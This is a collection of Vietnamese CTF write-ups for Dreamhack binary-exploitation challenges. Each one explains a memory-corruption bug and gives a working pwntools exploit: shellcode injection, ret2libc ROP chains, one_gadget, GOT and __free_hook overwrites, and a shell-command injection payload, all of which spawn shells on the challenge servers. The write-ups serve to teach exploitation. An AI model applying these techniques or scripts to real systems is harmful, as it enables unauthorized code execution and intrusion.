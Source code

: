 <details>
<details>
<summary>memory_leakage </summary>
	
- Bài cho ta 1 file source và 1 file binary
- Đầu tiên mở source lên thì thấy name khai báo 16 byte mà khúc dưới nhập tên đủ 16 byte luôn. Do đó sẽ thiếu byte để encode null terminator => lỗi off by one. Ngoài ra cũng có biến age 4 byte do kiểu int
![](https://i.imgur.com/yWNAPgl.png)

![](https://i.imgur.com/FgHs49X.png)

- Ở khúc dưới sẽ có chỗ cho ta in tên và tuổi. Vậy ta sẽ debug xem thử thứ tự các biến thế nào để coi leak được hay không

![](https://i.imgur.com/V6GQUJp.png)

- Debug thì thấy thứ tự các biến là name -> age -> flag. Do đó ta chỉ cần cho biến age là số nào đó đủ 4 byte nào đó khác byte /x00 là lấy được flag

- Tiếp theo kết nối với server. Đầu tiên nhập 3 để load flag. Tiếp theo chọn 1 rồi nhập tên đủ 16 byte, name đủ 4 byte khác byte /x00. Cuối cùng nhập 2 để leak.

![](https://i.imgur.com/ZxSGGMB.png)

</details>

<details>
<summary>rtld </summary>
- Đề cho ta file source, file libc và file binary
- Đầu tiên mở file source lên xem thử. Có hàm `get_shell` cho ta shell, ngoài ra hàm `main` leak cho ta libc và cho ta điều khiển dữ liệu của 1 địa chỉ bất kỳ.

![](https://i.imgur.com/skHYxHk.png)

- Tiếp theo ta checksec. Ta thấy PIE enable nên hàm `get_shell` coi như phế vì không leak được. Do đó ở đây ta sẽ sài `one_gadget`

![](https://i.imgur.com/i4KHhC9.png)

- Đề leak cho ta libc vì vậy ta cần overwrite 1 địa chỉ nào đó ở libc mà chương trình có call tới thành `one_gadget`. Đề không leak exe để tính basse nên ở đây khó overwrite `.got.plt`
    
- Do đó ở đây mình cần overwrite địa chỉ libc ở chỗ mình tô vàng. Ở đây theo dreamhack thì mình cần overwrite `_rtld_global`. Đây chính là địa chỉ khi chương trình exit sẽ gọi tới.
![](https://i.imgur.com/KMu39eS.png)

-Tiếp theo mình gdb để tính offset thử.

![](https://i.imgur.com/7j34x4f.png)

- Tiếp theo sài `one_gadget`. Ở đây có địa chỉ cuối mình sài được

![](https://i.imgur.com/L0p36Ds.png)

- Cuối cùng viết script:
```python
from pwn import *
exe = ELF("rtld_patched")
libc = ELF("libc.so.6")
p = remote("host2.dreamhack.games",21781)
#p = process(exe.path)
p.recvuntil(b'stdout: ')
leak =int(p.recvline()[:-1] ,16)
libc.address = leak - 3954208
rtld = libc.address + 6229832
print(hex(libc.address))
print(hex(rtld))
p.sendlineafter(b'addr: ',str(rtld).encode() )
p.sendlineafter(b'value: ',str(libc.address + 0xf1147).encode())
p.interactive()
```
- Chạy thử và ta có flag.
</details>

<details>
<summary>seccomp </summary>
	
- Bài cho ta file source và file binary
- Đầu tiên mở source lên đọc. Tóm tắt thì bài cho ta nhập shellcode để thực thi nhưng sẽ giới hạn không cho ta syscall. Ngoài ra chương trình còn cho ta overwrite 1 địa chỉ bất kỳ.

![](https://i.imgur.com/try1jjo.png)

- Ta lên hàm syscall_filter để đọc thử
    
![](https://i.imgur.com/vXU0sVo.png)

- Ở đây mặc định chương trình sẽ set seccomp mặc định là `SECCOMP_MODE_STRICT`. Mode này chỉ cho phép syscall các hàm sau :  `read`, `write`, `_exit`.
- Ta phân tích tiếp filter của chương trình: Nó chỉ check xem nếu shellcode đang thực hiện có phải của architecture x86-64 hay không, nếu phải thì lấy syscall number, không phải thì terminate bằng sigsegv.
- Tiếp theo ta `checksec`.
![](https://i.imgur.com/pW9sQm7.png)

- Ta thấy PIE disable, mà chương trình mặc định sẽ gọi `SECCOMP_MODE_STRICT`, do đó ta tìm cách overwrite `mode` thành `SECCOMP_MOD`E nào đó mà "nhẹ hơn".
- Đọc doc của linux kernel thì thấy có 2 mode mà ta có thể sài là 0 và 2. 0 tức disable luôn còn 2 là sài cái filter ở trên mình phân tích. Mà cái filter đó không có gì nguy hiểm tới shellcode của mình hết nên mình thích overwrite mode bằng 0 hay 2 là tuỳ. Ở đây mình overwrite thành 2

![](https://i.imgur.com/in6Xdk3.png)

- Tiếp theo ida tìm địa chỉ của `mode`. Ta được địa chỉ là `0x0000000000602090` tức `6299792`
![](https://i.imgur.com/WF8Of4v.png)

- Cuối cùng viết script. Đầu tiên ta overwrite `mode` thành 2, sau đó nhập shellcode cuối cùng thực thi 
```python
from pwn import *
exe = ELF("seccomp")
#p=remote("host3.dreamhack.games",21718)
p = process(exe.path)

context.update(arch='amd64',os='linux')
shell = shellcraft.sh()

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ',b'6299792')
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'shellcode: ',asm(shell))

p.sendlineafter(b'> ',b'2')
p.interactive()
```
</details>
	
<summary>Welcome </summary>
	
- Ta chỉ cần kết nối và lấy flag
    
![](https://i.imgur.com/iDQVZs4.png)

</details>

<details>
<summary>basic_exploitation_000 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đầu tiên mở source xem thì thấy bị lỗi buffer overflow ở `scanf`
    
![](https://i.imgur.com/n5GB0GC.png)

- Do tắt hết các chế độ bảo vệ và trong code không có chỗ nào để lấy flag nên ta sẽ làm theo dạng ret2shell code
    
![](https://i.imgur.com/YEmF9r9.png)
    
- `scanf` không thể đọc các byte `\x09, \x0a, \x0b, \x0c, \x0d, \x20` do đó cần chọn shell cẩn thận

- Đây là shell tìm được
    
![](https://i.imgur.com/6JHxzSU.png)

- Kế tiếp ta tìm padding để overwrite ret address. Nếu tìm đúng thì ta được code như sau:
```python
from pwn import *
p = remote("host3.dreamhack.games",19166)
#p = process("./basic_exploitation_000")
p.recvuntil(b'(')
leak = int(p.recv(10).decode(),16)
print(hex(leak))
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload = shell
payload += payload.rjust(132-len(shell), b"\x90") +  p32(leak)
p.sendlineafter(b")\n", payload)
p.interactive()
```
- Chạy script trên ta sẽ có được shell

</details>

<details>
<summary>basic_exploitation_001 </summary>
	
- Đề cho ta một file source và 1 file binary

![](https://i.imgur.com/YK5Xv37.png)

- Nhìn code thì mục đích ta là lợi dụng buffer overflow để chuyển ret qua `read_flag`
    
- Do đó ta cần tìm padding rồi overwrite ret address

- Script : 
```python
from pwn import *
exe = ELF("./basic_exploitation_001")
p= remote("host3.dreamhack.games", 1576)
#p= process(exe.path)
payload = b'A'*132 + p32(exe.sym['read_flag'])
p.sendline(payload)
p.interactive()
```
- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>shell_basic </summary>
	
- Đề cho ta một file source và 1 file binary
    
- Đọc code thì thấy chương trình sẽ chạy shellcode của ta nhập vào, và nó muốn ta viết asm để write, read, không sài `execve`

![](https://i.imgur.com/gtb4Dui.png)

- Đề cho ta sẵn tên flag và trong pwntool có sẵn thư viện để cat luôn nên sài cho nhanh
    
![](https://i.imgur.com/liAisvR.png)
    
- Script: 
```python
from pwn import *
context.arch='amd64'
p=remote("host1.dreamhack.games",15482)
p.sendafter(":",asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")))
p.interactive()
```

- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>Return Address Overwrite </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì ta cần buffer overflow ở `scanf` để ret qua `get_shell`
    
![](https://i.imgur.com/FoP72KD.png)
    
- checksec thì thấy canary tắt nên bài này tìm padding overwrite bình thường là ra

![](https://i.imgur.com/N6HDEQj.png)

- Do mấy bài này dạng cơ bản nên mình không phân tích chi tiết

- Script : 
```python=
from pwn import *
exe = ELF("./rao")
p = remote("host3.dreamhack.games", 12411)
payload = b'A'*56 + p64(exe.sym['get_shell'])
p.sendlineafter(b"Input: ", payload)
p.interactive()
```
- Chạy script trên ta sẽ lấy được shell
</details>

<details>
<summary>basic_exploitation_003 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì nhận thấy có hàm `sprintf` bị lỗi format string. Hàm này copy `heap_buf` vào `stack_buf` , do trong hàm này không check có format specifier nào không nên bị lỗi này.
    
![](https://i.imgur.com/ZUdyNFB.png)

- Bài này ta có thể lợi dụng fmt để buffer overflow stack_buf hoặc sài fmt ghi địa chỉ nào đó luôn. Ở đây mình sài cách đầu tiên để overwrite ret address của main.
    
![](https://i.imgur.com/QYR5ZTb.png)

- Trừ 2 giá trị tô đỏ trên ta được offset là 256

- Script:
```python
from pwn import *

exe = ELF("basic_exploitation_003")
#p = remote("host2.dreamhack.games",13411)
p = process(exe.path)
p.sendline(b'%156c'+p32(exe.sym['get_shell']))
p.interactive()
```

</details>

<details>
<summary>out_of_bound </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/1a2kgkJ.png)

- Nhận thấy chương trình không check bound của idx nên sẽ bị lỗi out of bound cho ta thực hiện câu lệnh bất kỳ ở hàm `system`

- Ngoài ra đề cũng kêu nhập tên. Do đó mục đích ta là làm system gọi tới địa trỉ trỏ tới string `/bin/sh`. Ta sẽ làm bằng cách lợi dụng nhập tên ở name

- Do đó ta cần làm command trỏ tới name bằng cách tính offset của id: `0x0804A0AC = 4*id + 0x0804A060`. Ta được id là 19.

![](https://i.imgur.com/eGCzO2q.png)


- Phân tích ta nhận thấy khi trỏ tới name ta cần input thêm một địa chỉ trỏ tới chuỗi `/bin/sh` rồi mới tới `/bin/sh`

- Script:
```python
from pwn import *
p=remote("host3.dreamhack.games",9645)
#p =process("./out_of_bound")
payload = p32(0x0804A0AC+8)+b'\x00'*4+b'/bin/sh\x00'
p.sendafter(b'Admin name: ',payload)
p.sendafter(b'What do you want?: ',b'19')
p.interactive()
```
- Chạy script trên ta sẽ có được shell
</details>

<details>
<summary>Return to Shellcode </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/xUqhvgK.png)

- Đọc code thì thấy có thể sẽ leak canary và bị lỗi ở buffer overflow ở hàm `gets` 

- Checksec thì nhận thấy `NX disable` và đây là file x64 nên ta giải theo ret2shellcode x64
    
![](https://i.imgur.com/MWLEtJY.png)

- Đầu tiên là leak canary, ta sẽ lợi dụng buffer overflow rồi tìm padding tới canary leak. Do canary có byte 00 đầu làm ảnh hưởng tới printf nên ta sẽ leak lố qua 1 byte

![](https://i.imgur.com/K9pMdma.png)

- Ta sẽ tìm được offset là 0x61 byte. Vậy thì đầu tiên ta sẽ leak ra canary rồi sau đó overwrite ret của `main` qua address `buf` để thực hiện shellcode

- Script : 
```python
from pwn import *
p = process("./r2s")
context.arch = "amd64"
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
p.recvuntil("$rbp: ")
buflen = int(p.recvline().split()[0])
buf_cana = buflen - 8

payload = b"A"*(buf_cana + 1)
p.sendafter("Input:", payload)
p.recvuntil(payload)
leak = u64(b"\x00"+p.recvn(7))

shell = asm(shellcraft.sh())
payload = shell.ljust(buf_cana, b"A") + p64(leak) + b"A"*0x8 + p64(buf)

p.sendlineafter("Input:", payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x86 </summary>
	
- Đề cho ta 1 file source và file binary

![](https://i.imgur.com/EGKSycy.png)

- Đọc code thì nhận thấy có lỗi buffer overflow ở hàm `read`
    
- Tiếp theo ta `checksec` thì thấy dựa vào tên bài và lỗi này thì chắc chắn ret2libc x86 =)) 

![](https://i.imgur.com/1iyqyyC.png)

- Vậy thì lần đầu ta sẽ leak libc -> quay lại main -> overwrite ret main thành `system('/bin/sh')`

- Để leak libc ta overwrite ret của main theo padding sau để theo calling convention của x86 :`padding + đc plt put + ret main + đc got cần leak` (do arguments push lên stack nên không cần kiếm rop pop rdi...)

- Sau khi có libc ta làm tương tự payload sau để lấy shell: `padding + đc system + gì cũng được + đc binsh`
    
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x86_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",16434)

payload = b'a'*72 + p32(exe.plt['puts']) + p32(exe.sym['main'])+ p32(exe.got['read'])
p.send(payload)

p.recvuntil(b'a'*64)
read_leak = u32(p.recv(4))
print("leak read : ",hex(read_leak))

libc.address = read_leak-869200
#binsh = libc.address + 1806581
binsh = next(libc.search(b"/bin/sh"))
payload = b'a'*72 + p32(libc.sym['system']) + p32(binsh)+ p32(binsh)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x64 </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/QYZZRyB.png)

- Code với checksec y chang phần trước ngoại trừ đây là file x64 thôi.
- Do đó ta làm theo dạng ret2libc x64
- Dạng này thì leak libc -> về `main` -> thực thi `system` y chang phần trước ngoại trừ ta cần kiếm `pop rdi ret` gadget và thích thì kiếm `one_gadget` để lấy shell cho nhanh.
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x64_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",18845)
pop_rdi = 0x400883
payload = b'A' * 72 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) +  p64(exe.sym['main'])
p.sendline(payload)

p.recvuntil(b'A' * 64)
leak_libc = u64(p.recvline(keepends=False) + b"\x00\x00")
log.info("leak libc: " + hex(leak_libc))

libc.address = leak_libc - 456336

payload = b'A'* 72 + p64(libc.address + 0x45216)
p.sendline(payload)
p.interactive()
```
</details>

<details>
<summary>sint </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/MT2hly4.png)

- Đọc code thì thấy `size` phải trong khoảng [0,256], sau đó sẽ nhập `size-1` số vào `buf`

- Đọc manpage `read` thì nhận thấy `size-1` đó phải là số dương mà nếu ta nhập 0 sẽ dẫn đến `size-1<0` làm read nhận dạng số âm thành số dương. Do đó có lỗi bufer overflow ở `read` nếu ta nhập 0
                                                                                                     
![](https://i.imgur.com/GRBZ6j3.png)

- Ngoài ra chương trình cũng có hàm `get_shell` để lấy shell. Do đó ta cần buffer overflow để ret2get_shell 
                                                                                                       - Script:
```python=
from pwn import *
exe = ELF("sint")
p = remote("host3.dreamhack.games",12276)
#p = process(exe.path)
p.sendlineafter(b'Size: ',b'0')
p.sendlineafter(b'Data: ',b'a'*260+p32(exe.sym['get_shell']))
p.interactive()
```    
</details>

<details>
<summary>Return to Library</summary>
	
- Bài cho ta 1 file source và 1 file binary
    
- Đọc code thì thấy ta cần leak canary rồi overwrite ret address do có lỗi buffer overflow

![](https://i.imgur.com/4rmzscx.png)

- Đọc thì bài này là bài kết hợp ret2libc x64 với ret2shellcode ở trên.

- Ở đây ta không cần leak libc vì No PIE

![](https://i.imgur.com/90ushGF.png)

- Dạng cơ bản nên làm `pop rdi, ret` bình thường thôi. Mà ở đây mình chain thêm ret vì lúc đầu bị lỗi xmm

- Script : 
```python
p.sendafter('Buf: ',payload)
p.recvn(61)
canary = u64(p.recvn(8)) - 0x41

pop_rdi = 0x00400853
ret = 0x400285
binsh = 0x600874
system = 0x4005d0
payload = 'A'*0x38 + p64(canary) + 'A'*0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```
</details>
    
<details>
<summary>one_shot </summary>
	
- Bài cho ta một file binary, 1 file source, 1 file libc

- Đọc file source thì thấy đề sẽ leak libc và bị lỗi buffer overflow ở `read` 

![](https://i.imgur.com/6futpAZ.png)

- Bài không có canary nên overflow bình thường. Ngoài ra code không có chỗ để leak nên bài này ta làm ret2libc.
![](https://i.imgur.com/qTICEDD.png)

- Đề cho overflow 46 byte mà nếu tính padding + chain `pop rdi` sẽ không đủ do đó bài này muốn ta sài `one_gadget`

- Sài `one_gadget` ta được như sau:

![](https://i.imgur.com/EEjsqdh.png)

- Rồi thì ret2libc bình thường thôi.
- Script:

```python
from pwn import *
exe = ELF("oneshot_patched")
libc= ELF("libc.so.6")
#p = process(exe.path)
p= remote("host3.dreamhack.games",20854)
p.recvuntil(b'stdout: ')
std = int(p.recvline(keepends=False).decode(), 16)
libc.address = std - 3954208
payload = b'A'*24 + p64(0) + b'A'*8 + p64(libc.address+0x45216)
p.sendlineafter(b'MSG: ',payload)
p.interactive()
```
</details>
    
<details>
<summary>off_by_one_001 </summary>
	
- Đề cho ta 1 file source và 1 file binary    

- Đọc code thì thấy nếu ta làm cho `age = 0` thì có shell

![](https://i.imgur.com/sMZUFaw.png)

- Đọc hàm `read_str` thì thấy nếu ta nhập đủ 20 ký tự thì sẽ gán index thứ 20 là `\0`. Nhưng thực tế thì `ptr` khai báo là [20] tức từ index 0 ->19. Nên ở đây có lỗi off by one và vô tình ghi vào age và có shell
    
![](https://i.imgur.com/qLTMUax.png)

- Nhập thử và được shell:
    
![](https://i.imgur.com/4E8t67A.png)

</details>
    
<details>
<summary>hook </summary>
	
- Bài cho ta 1 file source, file binary và file libc.    

- Đọc source thì thấy chỗ `*(long *)*ptr = *(ptr+1);` rất đáng ngờ vì nó cho phép ta ghi. Giả sử ta có mảng a[2]={1,2} thì phép toán trên trên tương tự gán a[0]=a[1]. 

![](https://i.imgur.com/BRTXl9y.png)

- Do đó ta cần chọn địa chỉ cần ghi và ở đây là `free`. Ta muốn ghi `free` thành `one_gadget` để lấy shell. 
- Đề leak sẵn cho ta libc, one_gadget thì ta chọn từng cái, cái nào được thì sài.
    
![](https://i.imgur.com/VQL4Gb1.png)

- Chỗ `size` ta nhập số bất kỳ miễn sau đủ lớn để chứa 2 địa chỉ. Còn `data` thì ta input payload để gán địa chỉ `hook` thành địa chỉ `one_gadget`
- Script : 
```python
from pwn import *
exe = ELF("hook_patched")
libc = ELF("libc.so.6")
#p = process(exe.path)
p = remote("host3.dreamhack.games",9920)
p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
libc.address = stdout - 3954208
print(hex(libc.symbols["__free_hook"]))
p.sendlineafter(b'Size: ',b'100')
payload = p64(libc.symbols["__free_hook"]) + p64(libc.address+ 0x4526a)
p.sendlineafter(b'Data: ',payload)
p.interactive()
```

- Ở đây ta sài `__free_hook` vì nó chứa địa chỉ thực thi của `hook` 
- Chạy script trên ta sẽ có shell
</details>

<details>
<summary>rop </summary>
	
- Đề cho ta file source, file libc,file docker,file binary

- Đầu tiên ta đọc source thì thấy cũng giống mấy bài rop trên thôi =)). Bắt leak canary rồi ret2libc

![](https://i.imgur.com/VZBcygu.png)

- Vậy thì ta làm y chang bài trên là được.
- Script : 
```python
from pwn import *

exe=ELF("rop_patched")
libc = ELF("libc.so.6")

#p=process(exe.path)
p = remote("host3.dreamhack.games",17896)

'''
gdb.attach(p,
"""
b*main
c
""")
input()
'''
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))

pop_rdi_ret = 0x00000000004007f3
payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(pop_rdi_ret) + p64(exe.got['read']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendafter("Buf: ",payload)

leak = u64(p.recvn(6)+b'\x00\x00')
print(hex(leak))
libc.address =  leak - libc.sym['read']
print("libc base : ",hex(libc.address))
print("libc system " ,hex(libc.sym['system']))

p.sendafter("Buf: ",b'a')

payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(0x000000000040055e) + p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendafter("Buf: ",payload)
p.interactive()
```
</details>

<details>
<summary>off_by_one_000</summary>
	
- Đề cho ta 1 file source và 1 file binary
- Đọc file source thì thấy có lỗi off by one ở hàm `strcpy` do biến `cp_name` max là 256 ký tự (bao gồm null byte), khi ta input max 256 ký tự thì sẽ overwrite 1 byte qua `real_name`. Ngoài ra có hàm `get_shell` cho ta shell
- Để coi sự ảnh hưởng của 1 byte null đó ta sẽ debug.
    
![](https://i.imgur.com/7YBUhDZ.png)

- Ở đây trước và sau nhận thấy byte cuối của epb bị overwrite thành 00
- Khi ret address của main lúc này thành `0xffffd004` trỏ về đâu đó giữa chuỗi mình nhập vào
    
![](https://i.imgur.com/TzxgygT.png)

- Do đó khi bị off by one nó sẽ trỏ về giữa stack
    
![](https://i.imgur.com/qpkzABd.png)

- offset là 20 chia hết cho 4 vậy thì đỡ tính toán ta gửi payload là địa chỉ của get_shell (256/4) lần (do địa chỉ get_shell gồm 4 số).
- Script : 
```python
from pwn import *
exe = ELF("off_by_one_000")
p = remote("host3.dreamhack.games",15154)
#p = process(exe.path)
p.sendafter(b'Name: ',p32(exe.sym['get_shell'])*64)
p.interactive()
```
</details>
    
<details>
<summary>cmd_center </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow ở `read`
![](https://i.imgur.com/D1zAKwq.png)

- Phân tích thì hàm `strncmp` so sánh `cmd_ip` với `ipconfig`. Hàm `strncmp` sẽ so sánh đến khi 1 trong 2 gặp null terminator hoặc sâu cmd_ip khác với `ipconfig` 8 chữ cái đầu. Do đó ta sẽ lợi dụng buffer overflow để overwrite `cmd_ip` thành sâu gồm `ipconfig` + lệnh để lấy shell.
- Script: 
```python
from pwn import *
p = remote("host3.dreamhack.games",15401)
#p = process("./cmd_center")
payload = b'A'*32+b'ifconfig || /bin/sh\x00'
p.sendafter(b'Center name: ',payload)
p.interactive()
```
</details>

<details>
<summary>ssp_000 </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow và code cho ta gán địa chỉ bất kỳ. Còn có hàm `get_shell` cho ta shell
    
![](https://i.imgur.com/AgJK0xU.png)

- Checksec thì thấy canary bật , NO PIE
    
![](https://i.imgur.com/lPS5Btj.png)


- Phân tích thì nếu bị buffer overflow canary thì code sẽ gọi `stack_chk_fail`. Do đó nếu ta lợi dụng bof để gọi `stack_chk_fail` và dùng lỗi ghi địa chỉ kia để overwrite got `stack_chk_fail` thành `get_shell` thì ta sẽ có được shell
- Script : 
```python
from pwn import *
exe = ELF("ssp_000")
p= remote("host2.dreamhack.games",8718)
#p=process(exe.path)
p.sendline(b'a'*0x80)
p.sendlineafter(b'Addr : ',str(exe.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ',str(exe.sym['get_shell']))
p.interactive()
```
</details>

<details>
<summary>fho </summary>
	
- Đề cho ta 1 file source, file binary,file libc
    
- Đọc code thì thấy có lỗi bof cho ta leak stack,ngoài ra còn có phép gán địa chỉ bất kỳ.
    
![](https://i.imgur.com/uA4un6V.png)

- Checksec thì thấy full giáp
    
![](https://i.imgur.com/9osTwMz.png)

- Ý tưởng hiện tại là leak libc -> write `free` thành `system` -> nhập add là đc `/bin/sh` để lấy shell
- Đầu tiên là leak libc. Ở đây mình sẽ leak `__libc_start_call_main`. Các bước để leak thì làm như bình thường.

![](https://i.imgur.com/H5UEpm5.png)

- Leak xong thì overwrite `free` thành `system`. Để overwrite `free` thì ta cần ghi vào địa chỉ của `__free_hook` vì ở đây chứa địa chỉ thực thi của `free`. Cuối cùng thì lấy ``/bin/sh trong libc.
- Script:
```python
from pwn import *
exe = ELF("fho_patched")
libc= ELF("libc.so.6")
#p=process(exe.path)
p=remote("host3.dreamhack.games",14797)
p.sendlineafter(b'Buf: ',b'a'*72)
p.recvuntil(b'a'*72)
leak = u64(p.recv(6) + b'\x00\x00')
libc.address = leak - 137994
print(hex(libc.address))
p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(libc.sym['system']))
p.sendlineafter(b'To free: ', str(next(libc.search(b'/bin/sh'))))
p.interactive()
```
</details>
